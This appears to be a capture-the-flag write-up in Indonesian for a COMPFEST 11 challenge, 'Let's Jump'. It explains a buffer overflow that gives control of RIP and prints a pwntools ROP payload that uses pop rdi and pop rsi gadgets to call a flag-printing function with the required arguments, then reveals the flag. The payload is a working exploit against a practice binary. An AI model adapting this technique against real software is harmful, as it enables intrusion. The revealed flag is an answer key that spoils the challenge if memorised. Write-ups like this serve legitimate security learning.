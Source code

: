 # Let's Jump

vuln buffer overflow dengan memasukkan data lebih dari 9 byte kita sudah dapat mengontrol RIP. Di dalam program terdapat fungsi yang dapat menampilkan flag, tetapi ada 2 argumen sebagai syarat yg harus di kirim agar fungsi tersebut menampilkan flag
<br>
<img src="entah.png"><br>

```
from pwn import *
pop_rdi = p64(0x0000000000400923)
pop_rsi_x = p64(0x0000000000400921)
pay = "B"+"A"*0x8
pay += pop_rdi
pay += p64(1)
pay += pop_rsi_x
pay += p64(0x00400952)
pay += p64(0)
pay += p64(0x4007b6)
print(pay)
```

<br>
**COMPFEST11{jump_and_play_with_ret_gadget}**